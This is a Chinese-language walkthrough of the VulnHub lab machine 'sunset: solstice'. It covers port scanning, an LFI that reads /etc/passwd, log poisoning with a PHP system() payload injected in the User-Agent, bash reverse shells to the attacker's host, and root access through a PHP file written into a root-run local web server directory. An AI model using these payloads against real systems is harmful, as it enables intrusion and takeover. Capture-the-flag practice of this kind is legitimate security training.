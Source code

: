 # sunset: solstice

2024-5-21 https://www.vulnhub.com/entry/sunset-solstice,499/

difficulty: Intermediate

## IP

192.168.5.30

## Scan

Open Port -> 21,22,25,80,139,445,2121,3128,8593,54787,62524

```
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.5.30:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 5ba737fd556cf8ea03f510bc94320718 (RSA)
|   256 abda6a6f973fb2703e6c2b4b0cb7f64c (ECDSA)
|_  256 ae29d4e346a1b15227838f8fb0c436d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice Hello nmap.scanme.org [192.168.5.3], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.5.30:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  tcpwrapped
```

端口很多，估计会有一些坑。

21 的 ftp 端口，不允许匿名登陆。

2121 的 ftp 端口，允许匿名登陆：

```
drws------   2 www-data www-data     4096 Jun 18  2020 pub
```

同时看到 pub 文件夹所属用户为 www-data。

看到有 SMB 端口开放，枚举看看有什么信息：

```
smbclient -L //192.168.5.30 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            SOLSTICE
```

没用自定义的开放目录，这里没有提权点。

25 端口 smtp 也没有用户名和密码，暂时用不了。

看看 80 web 服务，看到首页底部的 cms 版本：phpIPAM 1.4，使用 gobuster 扫描看看是否还有其他目录：

```
http://192.168.5.30/app                  (Status: 301) [Size: 310] [--> http://192.168.5.30/app/]
http://192.168.5.30/javascript           (Status: 301) [Size: 317] [--> http://192.168.5.30/javascript/]
http://192.168.5.30/backup               (Status: 301) [Size: 313] [--> http://192.168.5.30/backup/]
```

/backup 是个上传页面，但是测试后，发现不能上传。

8593 端口对应的是一个 web 服务，http://192.168.5.30:8593/index.php?book=list 页面上发现了这样的链接 ，可能存在 LFI 漏洞，尝试看看：

```
curl "http://192.168.5.30:8593/index.php?book=../../../../../etc/passwd"

root:x:0:0:root:/root:/bin/bash
...
miguel:x:1000:1000:,,,:/home/miguel:/bin/bash
```

证明存在 LFI 漏洞，继续寻找，看看能有哪些文件能读取到：

```
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.30:8593/index.php?book=../../../../..FUZZ -fs 376

/etc/samba/smb.conf
/var/log/apache2/access.log
/var/log/apache2/error.log
```

能够得到 80 端口对应的 access.log 文件，所以直接利用 curl 将 php 代码写入到 UA 中，这样在包含这个日志文件，就能实现 php 代码执行：

```
curl -A 'AAAA<?php system($_GET[1]);?>' http://192.168.5.30/backup
curl -G --data-urlencode "book=../../../../../var/log/apache2/access.log" --data-urlencode '1=bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.30:8593/index.php
```

在 kali 上监听 8888 端口，就能得到反弹的 shell:

```
www-data@solstice:/var/tmp/webserver$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

先升级下 tty,目标系统有 /usr/bin/python：

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

进入系统后，进行系统枚举。/home/miguel 目录中有 user.txt 文件，但是 www-data 用户不能读取，需要先升级到 miguel 才行。

ps -ef 发现了一些系统运行程序：

```
root  460   448  0 May20 ?  00:00:00 /usr/bin/python -m pyftpdlib -p 21 -u 15090e62f66f41b547b75973f9d516af -P 15090e62f66f41b547b75973f9d516af -d /root/ftp/
root  450   436  0 May20 ?  00:00:00 /bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
```

其中以 root 用户启动 php 监听本地 57 端口，/var/tmp/sv/ 这个目录，对 www-data 可写，我们可以写入 wenshell，反弹连接至 kali，在 kali 上监听 7777 端口：

```
echo "<?php system('bash -c \"/bin/bash -i >& /dev/tcp/192.168.5.3/7777 0>&1\"')?>" > shell.php

www-data@solstice:/var/tmp/sv$ cat shell.php

<?php system("bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/7777 0>&1'")?>

curl http://127.0.0.1:57/shell.php
```

在 kali 上得到了以 root 身份反弹的 shell：

```
root@solstice:/var/tmp/sv# id
id
uid=0(root) gid=0(root) groups=0(root)

root@solstice:/home/miguel# cat user.txt
cat user.txt
c0e1f61ff8e753d8b27615bdc4f25794

root@solstice:~# cat root.txt
cat root.txt

No ascii art for you >:(

Thanks for playing! - Felipe Winsnes (@whitecr0wz)

f950998f0d484a2ef1ea83ed4f42bbca
```
